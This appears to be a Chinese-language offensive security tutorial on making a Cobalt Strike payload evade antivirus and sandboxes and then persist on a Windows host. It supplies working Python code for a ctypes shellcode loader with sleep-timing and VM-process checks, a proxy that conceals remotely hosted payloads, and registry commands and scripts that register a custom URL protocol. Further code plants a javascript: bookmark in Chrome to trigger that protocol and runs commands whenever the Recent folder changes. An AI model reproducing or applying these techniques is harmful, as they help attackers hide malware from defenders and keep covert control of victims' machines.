







首先我们都知道，现在沙箱分析主要分为以下几步
- 行为检测
- 静态分析
- 动态分析
一般来说，动态分析会有时间加速，所以sleep(60)这样的免杀方法是不现实的，我们首先就是要检测他是否有时间加速。
# 1.动态(时间加速、沙箱/虚拟机检测)

先cs生成个payload，然后开始写代码
```python
import time
import ctypes

buf = b"\x90\x90\x90\x90xxxx" 

def check_time():
    start_time = time.time()
    time.sleep(5)
    end_time = time.time()
    elapsed_time = end_time - start_time
    if elapsed_time < 4.9:
        return False
    return True

def execute_shellcode(shellcode):
    shellcode_buffer = ctypes.create_string_buffer(shellcode)
    ctypes_buffer = ctypes.cast(shellcode_buffer, ctypes.CFUNCTYPE(ctypes.c_void_p))
    ctypes_buffer()

if __name__ == "__main__":
    if check_time():
        execute_shellcode(buf)
    else:
        print("检测到沙箱环境,不执行shellcode")
```
1. **check_time()**: 这个函数用于检测程序运行的时间。如果时间差小于预期值（4.9秒），则可能处于沙箱环境。
2. **execute_shellcode(shellcode)**: 这个函数用于执行传入的shellcode。使用`ctypes`库来分配内存并将shellcode注入到内存中执行。
也就是说原理就是检测是否有时间差
不过，有些沙箱没有时间加速，我们还是需要进行沙箱/虚拟机检测
```python
def is_vm_or_sandbox():
    return any(os.path.exists(path) for path in [
        "C:\\analysis\\sandbox.exe",
        "C:\\sandbox\\sandbox.exe",
    ]) or any(os.system(f"tasklist /FI \"IMAGENAME eq {proc}\" 2>nul | find /I \"{proc}\" >nul") == 0
              for proc in ["vmtoolsd.exe", "vboxservice.exe"]) or os.cpu_count() < 2
```
这个sandbox.exe就是查看它进程，cpu_count()是检测cpu数量，太少就可以`sys.exit(0)`了
对于用户名，我们可以通过`%USERNAME%`来获取

这样，我们得到了用户名，就可以判断用户名是否为沙箱的用户名，若是则退出

# 2.静态免杀

对于静态免杀，我们可以把shellcode、免杀文件等分开放，思维导图如下

这样，我们本地只留一个loader，其他都在公网上，但是如果被抓出来地址什么的，我们的远控就会被扒的底裤也不剩
我们这时候就可以设置一个代理，把我们的公网IP映射到127.0.0.1：
```python
import requests

proxy = {
    "http": "http://x.x.x.x:3333"
}
url = "http://127.0.0.1:3333" 
response = requests.get(url, proxies=proxy)
print(response.text)
```
这段代码留在loader
那么这样之后，我们的免杀就做到了这么几个功能：
1. 时间加速检测
2. 沙箱检测
3. 动态注入payload
4. 代理
# 3.权限维持

## 注册表配合书签

通常权限维持都是定时(比如10分钟)连接C2服务器，不过依然是一抓到IP就炸了
不过我们都知道，edge、chrome这样的主流浏览器，它的书签都可以解析js


这里我们就可以使用注册表实现rce了
```
reg add "HKEY_CLASSES_ROOT\knight" /ve /d "URL:MyCalc Protocol" /f
reg add "HKEY_CLASSES_ROOT\knight" /v "URL Protocol" /d "" /f
reg add "HKEY_CLASSES_ROOT\knight\rce" /f
reg add "HKEY_CLASSES_ROOT\knight\rce\rrr" /f
reg add "HKEY_CLASSES_ROOT\knight\rce\rrr\command" /ve /d "\"C:\\Windows\\System32\\calc.exe\"" /f
```

然后结合上面的书签，js打开knight://open
```
javascript:window.open('https://www.hdsec.cn/', '_blank'); setTimeout(function() { window.location.href = 'knight://open'; }, 1);
```

这样，我们就从一个书签开始，实现RCE
书签的路径自行百度，然后下面是增加书签的代码
```python
import json
import os

chrome_bookmarks_path = os.path.expanduser("~") + "/AppData/Local/Google/Chrome/User Data/Default/Bookmarks"
new_bookmark = {
    "name": "Open Baidu and RCE",
    "type": "url",
    "url": "javascript:window.open('https://www.hdsec.cn', '_blank'); setTimeout(function() { window.location.href = 'knight://open'; }, 1);"
}
with open(chrome_bookmarks_path, "r", encoding="utf-8") as file:
    bookmarks_data = json.load(file)
bookmarks_bar = None
for item in bookmarks_data["roots"]:
    if item == "bookmark_bar":
        bookmarks_bar = bookmarks_data["roots"][item]
        break
if bookmarks_bar:
    if "children" not in bookmarks_bar:
        bookmarks_bar["children"] = []
    bookmarks_bar["children"].append(new_bookmark)
with open(chrome_bookmarks_path, "w", encoding="utf-8") as file:
    json.dump(bookmarks_data, file, indent=4)
```
这样当他打开hdsec.cn的时候就会弹计算机
下面是添加注册表的代码
```python
import winreg

root_key = winreg.HKEY_CLASSES_ROOT
base_path = r"knight"
url_protocol_path = base_path
rce_path = base_path + r"\rce"
rrr_path = rce_path + r"\rrr"
command_path = rrr_path + r"\command"
key = winreg.CreateKey(root_key, base_path)
winreg.SetValue(key, "", winreg.REG_SZ, "URL:MyCalc Protocol")
winreg.CloseKey(key)
key = winreg.OpenKey(root_key, url_protocol_path, 0, winreg.KEY_WRITE)
winreg.SetValueEx(key, "URL Protocol", 0, winreg.REG_SZ, "")
winreg.CloseKey(key)
key = winreg.CreateKey(root_key, rce_path)
winreg.CloseKey(key)
key = winreg.CreateKey(root_key, rrr_path)
winreg.CloseKey(key)
key = winreg.CreateKey(root_key, command_path)
winreg.SetValue(key, "", winreg.REG_SZ, r"C:\Windows\System32\calc.exe")
winreg.CloseKey(key)
```
或者我们远程调用并导入reg文件
```
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\knight]
@="URL:MyCalc Protocol"
"URL Protocol"=""

[HKEY_CLASSES_ROOT\knight\rce]

[HKEY_CLASSES_ROOT\knight\rce\rrr]

[HKEY_CLASSES_ROOT\knight\rce\rrr\command]
@="\"C:\\Windows\\System32\\calc.exe\""
```
之后像上面那样把公网代理到127.0.0.1或其他IP，从127.0.0.1下载reg

## 最近打开的项目

众所周知，我们每打开一个项目，就会出现x.lnk，这个是windows默认启用的(笔者因为美观原因关掉了)

这个x.lnk，路径是`C:\Users\administrator\AppData\Roaming\Microsoft\Windows\Recent\`
获取用户名的方法上面也有，就是%USERNAME%
那么我们就可以在免杀中写，持续监听这个目录，创建了文件就执行某命令，也就是说对文件有增删查改就执行某命令
```python
import os, time, subprocess
from watchdog.observers import Observer
from watchdog.events import FileSystemEventHandler

RECENT_DIR = os.path.join("C:/Users", os.environ["USERNAME"], "AppData", "Roaming", "Microsoft", "Windows", "Recent")
observer = Observer()
observer.schedule(
    type("RecentHandler", (FileSystemEventHandler,), {"on_created": lambda self, event: subprocess.Popen("calc")})(),
    path=RECENT_DIR,
    recursive=False
)
observer.start()
try:
    while True: time.sleep(1)
except KeyboardInterrupt:
    observer.stop()
observer.join()
```
这个路径不仅限于recent，还可以换成别的，你要是愿意换成C D盘什么的也可以
